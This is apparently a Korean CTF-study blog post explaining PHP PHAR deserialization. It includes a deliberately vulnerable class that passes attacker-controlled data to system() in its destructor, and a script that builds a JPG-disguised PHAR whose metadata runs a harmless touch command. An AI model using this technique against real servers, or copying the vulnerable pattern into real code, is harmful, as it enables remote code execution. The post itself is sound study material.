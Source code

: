 ```yaml
---
title: PHAR Deserialization Vulnerability
date: 2024-03-08
author: glasses96
categories: [WEB]
tags: [Phar, Deserialization Vulnerability]
pin: true
math: true
mermaid: true
---
```


> **최근에 드림핵 문제를 Phar Deserialization 취약점을 알게되어서 정리하고자 합니다.** 
{: .prompt-info }

<span style="color:#9999FF"></span>

## What is PHAR & Deserialization
### PHAR
What is phar? Phar archives are best characterized as a convenient way to group several files into a single file. As such, a phar archive provides a way to distribute a complete PHP application in a single file and run it from that file without the need to extract it to disk. Additionally, `phar archives can be executed by PHP as easily as any other file, both on the commandline and from a web server`. Phar is kind of like a thumb drive for PHP applications.

Phar 파일안에 직렬화된 메타데이터 형식을 포함되어 있어 역직렬화 취약점 공격에 악용될 수 있습니다.  
아래의 함수에도 역직렬화가 발생합니다.
'''php
file_get_contents()
fopen()
file()
file_exists()
md5_file()
filemtime()
filesize().
'''

### Deserialization
역직렬화는 `직렬화된 데이터를 원본 데이터로 변환하는 작업`을 의미합니다. 
직렬화는 데이터(객체, 배열, 변수등등)을 스트림데이터로 변환하는 작업을 의미합니다.   

### Attack Point
드림핵에 풀었던 문제는 php에 클래스가 구현되어있고, 함수(file_get_contents())를 사용합니다.  
phar schme을 이용하여 phar(jpg,png 확장자도 상관없음) 파일을 함수를 통해 불러올때 역직렬화 취약점을 이용한 공격이 가능합니다.

## Example Code
### vuln.php
예시 코드를 통해 설명을 하겠습니다.
아래의 php 코드는 `AnyClass`란 클래스가 구현되어 있습니다.  
외부에서 $data 변수를 컨트롤이 가능하며 소멸자`__destruct()`를 이용하여 명령어($data) 실행이 가능합니다.  
그리고 `filesize` 함수를 사용하여 phar scheme을 사용하여 test.phar 파일을 가져와 파일크기를 계산합니다.    
```php
<?php
class AnyClass {
	public $data = null;
	public function __construct($data) {
		$this->data = $data;
	}
	
	function __destruct() {
		system($this->data);
	}
}

filesize("phar://test.phar"); #공격자는 파일 경로에 대한 컨트롤(입력)이 가능해야함
```

### create_phar.php
해당 코드는 phar 파일을 만들기 위한 코드입니다.  
위에서본 vuln.php와 클래스를 똑같이 구현합니다., phar 구조를 잘맞춰주고 touch라는 명령어를 실행하도록 합니다.
```php
<?php

class AnyClass {
	public $data = null;
	public function __construct($data) {
		$this->data = $data;
	}
	
	function __destruct() {
		system($this->data);
	}
}

// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');

// 스텁 코드 앞에는 jpg의 매직바이트임
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new AnyClass('touch phartest.txt');
$phar->setMetadata($object);
$phar->stopBuffering();
```

### phar Create
phar 파일을 만들때 기본적으로 `php.readonly=0`을 해줘야 가능합니다.  
```sh
php --define phar.readonly=0 create_phar.php
```

![create_phar](/assets/post/55/1.png)

### Exploit
명령어가 잘 실행되는 것을 알 수 있습니다.
![create_file](/assets/post/55/2.png)

## 참고
PHP 8.0의 보안 개선 사항은 Phar 스트림 래퍼( phar://)가 더 이상 스트림 래퍼 작업에서 unserialize를 자동으로 호출하지 않는다는 것입니다.

- https://php.watch/versions/8.0/phar-stream-wrapper-unserialize

## Reference
- https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization